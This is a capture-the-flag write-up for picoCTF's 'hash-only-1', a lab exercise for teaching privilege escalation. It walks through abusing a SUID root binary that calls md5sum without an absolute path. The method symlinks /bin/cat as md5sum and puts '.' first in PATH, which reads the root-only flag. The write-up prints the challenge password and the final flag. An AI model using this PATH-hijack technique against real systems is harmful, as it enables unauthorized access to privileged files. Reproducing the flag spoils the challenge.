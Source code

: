 # hash-only-1

## Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content! Connect using `ssh ctf-player@shape-facility.picoctf.net -p 56543` with the password, `a15d25e1` and run the binary named "flaghasher". You can get a copy of the binary if you wish: `scp -P 56543 ctf-player@shape-facility.picoctf.net:~/flaghasher`

We start the server by the above command and password

We first with the command `ls -la` as it show the **list files and directories** in the current directory (or a specified path) with **detailed information**, including **hidden files**.

It shows the file *flaghasher* has the `-rwsr-xr-x` where `-rwsr` means read , write and the `s` in place of the **owner's execute bit** means the **SetUID (SUID)** bit is set.

```
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    20 Jul  4 15:54 .
drwxr-xr-x 1 root       root          24 Mar  6 03:44 ..
drwx------ 2 ctf-player ctf-player    34 Jul  4 15:54 .cache
-rw-r--r-- 1 root       root          67 Mar  6 03:45 .profile
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher
```

So, when we open the flaghasher file, we can see that it is using MD5 hash in the file /root/flag.txt. And we can have the access only by the root. SUID means allows a user to execute a file with the permissions of the file's owner, rather than their own. 

- You were given a **SUID binary** called `flaghasher` (owned by `root` and with `rws` permissions).
- Running it as a normal user executes it **with root privileges**.
- It internally called a program named `md5sum` — _but without giving an absolute path_ (like `/usr/bin/md5sum`).

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 

3daf8ce91eaaba82780562d65223e131  /root/flag.txt

```

CONCEPT : SYMLINK and ABSOLUTE LINK 
A symbolic link (symlink) is a file that acts as a pointer to another file or directory, and it can be either absolute or relative. An absolute link uses a full path to the target, while a relative link uses a path relative to the symlink's own location.

Created a fake `md5sum`:
Now we will do the symbolic linking because an absolute path in not defined. where we give the command
```
ln -s /bin/cat md5sum
```

This symlink tricks anything trying to run `md5sum` into executing `cat` instead.
```
ctf-player@pico-chall$ ln -s /bin/cat md5sum
ctf-player@pico-chall$ ls -la
total 24
drwxr-xr-x 1 ctf-player ctf-player    34 Jul  4 15:55 .
drwxr-xr-x 1 root       root          24 Mar  6 03:44 ..
drwx------ 2 ctf-player ctf-player    34 Jul  4 15:54 .cache
-rw-r--r-- 1 root       root          67 Mar  6 03:45 .profile
-rwsr-xr-x 1 root       root       18312 Mar  6 03:45 flaghasher
lrwxrwxrwx 1 ctf-player ctf-player     8 Jul  4 15:55 md5sum -> /bin/cat

```

We will check the current location of the file. The command `echo $PATH` displays the current value of the `PATH` environment variable. 

```
echo $PATH
```

Hijacked the `PATH`:

```
export PATH=".":$PATH
```

The command `export PATH=".:$PATH"` modifies the `PATH` environment variable in a Linux or Unix-like system. Specifically, it adds the current directory (`.`) to the beginning of the `PATH`, making it the first place the shell searches for executable files. This allows you to run scripts or programs located in the current directory by simply typing their name, without needing to specify the full path

This ensures that the system will look in your current directory **first** when trying to resolve `md5sum`.

```
ctf-player@pico-chall$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
ctf-player@pico-chall$ export PATH=".":$PATH
ctf-player@pico-chall$ echo $PATH
.:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

Now when we will open the file ./flaghasher it will open the file without the md5sum. 

```
ctf-player@pico-chall$ ./flaghasher
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}
```

#### FLAG - picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_cc661106}


